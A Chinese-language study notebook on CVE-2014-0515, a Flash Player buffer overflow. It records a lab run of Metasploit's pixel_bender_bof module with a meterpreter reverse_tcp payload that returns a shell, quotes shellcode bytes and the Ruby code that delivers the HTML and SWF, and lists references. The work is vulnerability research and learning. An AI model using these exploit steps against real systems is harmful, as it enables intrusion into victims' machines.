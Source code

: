 # CVE 2014-0515 摸索笔记

## 主要报告
[CVE 通用漏洞与披露](http://www.scap.org.cn/CVE-2014-0515.html)<br>
[CVE 官网](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0515)<br>
[类似漏洞概况](http://www.cvedetails.com/cve/CVE-2014-0515/)<br>

## 概况
Buffer overflow in Adobe Flash Player before 11.7.700.279 and 11.8.x through 13.0.x before 13.0.0.206 on Windows and OS X, and before 11.2.202.356 on Linux, allows remote attackers to execute arbitrary code via unspecified vectors, as exploited in the wild in April 2014.<br>


## 演示验证
[Japanese youtube](https://www.youtube.com/watch?v=mNApA4ubsbo)<br>
https://www.rapid7.com/db/modules/exploit/multi/browser/adobe_flash_pixel_bender_bof

### shell
一番折腾之后选择了win7 sp1 32bit进行msf测试。<br>
kali linux进行测试验证，插件是flash_player_activex_13.0.0.182<br>
```
msf > use exploit/multi/browser/adobe_flash_pixel_bender_bof
msf exploit(adobe_flash_pixel_bender_bof) > set SRVHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set LHOST 192.168.50.132
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPORT 80
msf exploit(adobe_flash_pixel_bender_bof) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_pixel_bender_bof) > set SRVPATH /
msf exploit(adobe_flash_pixel_bender_bof) > exploit
```
其中192.168.50.132是本本机端口<br>
最后 生成 http://192.168.50.132:8080/S40YtnhUGivc9<br>
ie中输入这个网站，sessions -i 1 拿shell<br>
就渗透进去了(用来钓鱼那真是。。。)<br>

## 向大佬询问方法
- 大佬1:方法两种：模糊测试和人肉，如果有poc会简单一点，poc相当于直接告诉你漏洞点
- 大佬2:有poc,从poc入手，提取精简poc，adobe flash 如果找到这个漏洞的源码，将其反编译，分析会更容易一些，后来实践中发现,即as3的源码，由swf反编译而来
- 大佬3：现在以fuzz找uaf漏洞为主，本科生基础薄弱，建议从网络服务漏洞入手，熟悉漏洞类型和利用方法，掌握工具使用，最好能找到做这方面的大牛，请教一二。
- 大佬4：搞清楚基础的action script漏洞，uaf漏洞，heap spraying，动手调试，先从几个最经典的漏洞分析入手，动手调试，可能遇到不熟悉的组建，函数，对象是比较大的难题，还是和做pwn题一样，多调试多做。


## 找资料&分析poc
poc采用ruby语言，采用msf框架<br>
为了看懂，还是要稍微看下[msf开发](https://www.offensive-security.com/metasploit-unleashed/)<br>
### 报告阅读(太概括了)
- [heap spraying](https://securelist.com/blog/incidents/59399/new-flash-player-0-day-cve-2014-0515-used-in-watering-hole-attacks/
    提到 movie.swf 和 include.swf 这两个exp样本，两个是在shellcode方面不同，其他类似<br>
    - 准备
        使用heap spray(简单的来说就是在堆栈上覆盖一大片的空指令如NOP)<br>
    - exploit
        1. 采用VirtualProtect改写段的读写权限<br>
        2. VirtualAlloc分配空间并把第二段shellcode拷贝到里面<br>
        3. 是搜索库函数，但是延迟大<br>
           另外一种是到了这里就查找flash10p.ocx的base address，但是需要Adobe Flash Player ActiveX and Cisco MPE才行，但是文中交待并没有明确的payload来分析，因为没有进行重放(为啥)
    - summary<br>
        We detect such exploits by AEP technology as PDM:Exploit.Win32.Generic and by heuristics as HEUR:Exploit.SWF.CVE-2014-0515.gen
    - got<br>
        无

- https://vuldb.com/?id.13085 none
- [较为详细的概括](http://cwe.mitre.org/data/definitions/119.html)

## 摸索

### 抓包
这个真是。。。抓了一个晚上包，找到swf，然后各种工具配置分析格式。。。。

### 分析msf
#### 初始化
```
'Space' => 2000,
'DisableNops' => true,
'PrependEncoder' => stack_adjust

def stack_adjust
    adjust = "\x64\xa1\x18\x00\x00\x00"  # mov eax, fs:[0x18] # get teb
    adjust << "\x83\xC0\x08"             # add eax, byte 8 # get pointer to stacklimit
    adjust << "\x8b\x20"                 # mov esp, [eax] # put esp at stacklimit
    adjust << "\x81\xC4\x30\xF8\xFF\xFF" # add esp, -2000 # plus a little offset
    adjust
end
```
这里主要配置了payload的一些格式，去除了NOP指令，而采用 stack_adjust 来填充<br>
>Thread Environment Block (TEB)<br>
>由TEB结构/*0x008*/ PVOID ImageBaseAddress;<br>
具体参考http://securityblog.gr/3208/access-x86-tebpeb-with-c-and-assembly/<br>
接下来on_request_exploit 就是主要的了，等待访问网页，然后发送已经构造好的.swf和html<br>
html主要用来触发网页请求获取swf。<br>

### 构造html和发送swf
```
def exploit_template(cli, target_info)
    swf_random = "#{rand_text_alpha(4 + rand(3))}.swf"
    flash_payload = ""
    get_payload(cli,target_info).unpack("V*").each do |i|
      flash_payload << "0x#{i.to_s(16)},"
    end
    flash_payload.gsub!(/,$/, "")


    html_template = %Q|<html>
    <body>
    <object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab" width="1" height="1" />
    <param name="movie" value="<%=swf_random%>" />
    <param name="allowScriptAccess" value="always" />
    <param name="FlashVars" value="sh=<%=flash_payload%>" />
    <param name="Play" value="true" />
    </object>
    </body>
    </html>
    |
    return html_template, binding()
end
```
这个就是构造html
```
if request.uri =~ /\.swf$/
    print_status("Sending SWF...")
    send_response(cli, @swf, {'Content-Type'=>'application/x-shockwave-flash', 'Pragma' => 'no-cache'})
    return
end
```
这个就是发生构造的swf payload<br>
其中也看出了利用的swf是在/usr/share/metasploit-framework/data/exploits/之中(kali linux中)<br>

### Summary of day2
漏洞依旧没有进展，不过学习了很多，下一步仔细分析swf文件，这个msf shellcode里感觉好像找不到明显的漏洞点..完全没有经验的来搞真是曲折啊。。看来是要速看点flash漏洞分析的了。。<br>

## 重大发现(伪)
[二进制漏洞资料收集汇总](http://www.netfairy.net/?post=196)<br>
[Flash Vector漏洞利用的蜕变](http://www.cnetsec.com/article/14571.html)<br>

## 实际swf逆向分析
参考：https://community.hpe.com/t5/Security-Research/Technical-Analysis-of-CVE-2014-0515-Adobe-Flash-Player-Exploit/ba-p/6482744#.WBG4Y_p942w<br>

### 编译swf
amxmlc +configname=air -o Graph.swf Graph.as<br>

## Reference
  http://cvedetails.com/cve/2014-0515/
  http://www.securityfocus.com/bid/67092
  http://helpx.adobe.com/security/products/flash-player/apsb14-13.html
  http://www.securelist.com/en/blog/8212/New_Flash_Player_0_day_CVE_2014_0515_used_in_watering_hole_attacks
  http://blog.trendmicro.com/trendlabs-security-intelligence/analyzing-cve-2014-0515-the-recent-flash-zero-day/



